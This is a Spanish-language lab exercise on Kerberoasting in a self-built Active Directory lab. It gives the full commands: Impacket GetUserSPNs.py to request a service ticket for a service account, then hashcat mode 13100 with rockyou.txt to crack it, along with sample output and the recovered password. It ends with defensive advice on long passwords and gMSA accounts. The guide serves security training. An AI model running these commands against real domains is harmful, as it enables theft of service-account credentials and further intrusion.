 # Práctica de Laboratorio: Kerberoasting

**Objetivo:** Explotar la configuración de Kerberos para obtener el hash de una cuenta de servicio y crackearlo offline para obtener su contraseña en texto plano.

**Requisitos Previos:**
*   Haber completado la guía de montaje del laboratorio de Active Directory (`00-Guia-Montaje_Lab_AD.md`).
*   Tener un dominio funcional (`laboratorio.local`).
*   Tener una cuenta de servicio con un SPN configurado (`sql_service`).
*   Tener acceso a la red con **cualquier cuenta de usuario del dominio**. Para esta práctica, crearemos un usuario sin privilegios.

---

## Parte 1: Preparación del Entorno

### Paso 1: Crear un Usuario de Dominio sin Privilegios

En un ataque real, obtendrías estas credenciales mediante phishing, explotación, etc. Aquí, las crearemos nosotros.

1.  **En el Controlador de Dominio (DC)**, abre `Usuarios y equipos de Active Directory`.
2.  Crea un nuevo usuario:
    *   **Nombre de usuario:** `atacante`
    *   **Contraseña:** `Atacante1234`
    *   Desmarca "El usuario debe cambiar la contraseña..." y asegúrate de que no sea miembro de ningún grupo con privilegios (por defecto, será miembro de "Usuarios del dominio", lo cual es perfecto).

### Paso 2: Configurar el DNS en Kali Linux

Para que las herramientas de Kali puedan resolver los nombres del dominio `laboratorio.local`, debes configurar el DNS de tu máquina atacante.

1.  Edita el archivo `/etc/resolv.conf` en tu máquina Kali.
    ```bash
    sudo nano /etc/resolv.conf
    ```
2.  Asegúrate de que la primera línea (`nameserver`) apunte **únicamente** a la IP de tu Controlador de Dominio.
    ```
    nameserver [IP_DEL_CONTROLADOR_DE_DOMINIO]
    ```
3.  Guarda y cierra el archivo.

---

## Parte 2: Ejecución del Ataque de Kerberoasting

### Paso 1: Descubrir y Solicitar los Tickets (Kerberoasting)

Usaremos la herramienta `GetUserSPNs.py` de la suite Impacket. Esta herramienta automatiza el proceso de buscar usuarios con SPN y solicitar los Tickets de Servicio (TGS) para ellos.

Desde tu máquina Kali, ejecuta el siguiente comando:

```bash
# Sintaxis: GetUserSPNs.py <dominio>/<usuario> -dc-ip <IP_DC> -request

GetUserSPNs.py laboratorio.local/atacante -dc-ip [IP_DEL_CONTROLADOR_DE_DOMINIO] -request
```

*   Te pedirá la contraseña del usuario `atacante` (`Atacante1234`).
*   La opción `-request` es la que solicita el TGS.

**Resultado Esperado:**

La herramienta devolverá el TGS para la cuenta `sql_service`. La parte importante es la cadena de texto larga que parece un hash. Este es el ticket cifrado que contiene el hash de la contraseña de la cuenta de servicio.

```
ServicePrincipalName  Name         MemberOf                                          PasswordLastSet             LastLogon                   
--------------------  -----------  ------------------------------------------------  --------------------------  --------------------------  
MSSQLSvc/dc-01.laboratorio.local:1433  sql_service  CN=Users,DC=laboratorio,DC=local  2023-10-27 10:00:00  2023-10-27 10:00:00  

$krb5tgs$23$*sql_service$laboratorio.local$MSSQLSvc/dc-01.laboratorio.local:1433*<...hash_largo...>
```

### Paso 2: Preparar el Hash para Crackear

Copia la línea completa que empieza por `$krb5tgs$23$...` y guárdala en un archivo de texto en tu máquina Kali.

```bash
echo "$krb5tgs$23$*sql_service$laboratorio.local$MSSQLSvc/dc-01.laboratorio.local:1433*<...hash_largo...>" > hash_kerberos.txt
```

### Paso 3: Crackear el Hash con Hashcat

Ahora, usaremos Hashcat para crackear este hash offline. Necesitaremos una lista de contraseñas (un diccionario). Para este ejemplo, usaremos la famosa `rockyou.txt` (si no la tienes, puedes instalarla con `sudo apt-get install rockyou`).

El modo de Hashcat para los hashes de Kerberoasting (TGS-REP) es el **13100**.

```bash
# Sintaxis: hashcat -m <modo> <archivo_hash> <diccionario>

hashcat -m 13100 hash_kerberos.txt /usr/share/wordlists/rockyou.txt
```

**Resultado Esperado:**

Si la contraseña de la cuenta de servicio (`ServicioSQL1234`) está en el diccionario, Hashcat la encontrará en poco tiempo.

```
$krb5tgs$23$*...  --> Hash completo

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*sql_service$laboratorio.local$MSSQL... 
Time.Started.....: [...]
Time.Estimated...: [...]
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
[...]        

Recovered........: 1/1 (100.00%)

$krb5tgs$23$*sql_service$laboratorio.local$MSSQLSvc/dc-01.laboratorio.local:1433*...:ServicioSQL1234
```

---

## Conclusión

¡Has obtenido la contraseña en texto plano de una cuenta de servicio! (`ServicioSQL1234`).

Este ataque es extremadamente sigiloso porque solo realiza acciones legítimas dentro del protocolo Kerberos. Un atacante no necesita privilegios y puede obtener credenciales de cuentas potencialmente muy poderosas. Esto demuestra por qué es **crítico** usar contraseñas extremadamente largas y complejas para las cuentas de servicio o, preferiblemente, usar cuentas gMSA gestionadas por el propio AD.